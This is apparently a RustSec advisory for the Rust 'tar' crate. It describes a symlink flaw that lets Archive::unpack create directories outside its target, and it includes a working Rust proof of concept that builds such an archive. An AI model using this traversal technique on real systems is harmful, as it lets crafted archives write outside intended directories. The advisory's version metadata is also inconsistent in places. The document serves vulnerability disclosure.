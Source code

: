 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = [">= 0.4.36"]

[affected]
functions = { "tar::Archive::unpack" = ["< 1.2.3"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This has been fixed in https://github.com/alexcrichton/tar-rs/pull/259 and is
published as `tar` 0.4.36. Thanks to Martin Michaelis (@mgjm) for discovering
and reporting this, and Nikhil Benesch (@benesch) for the fix!
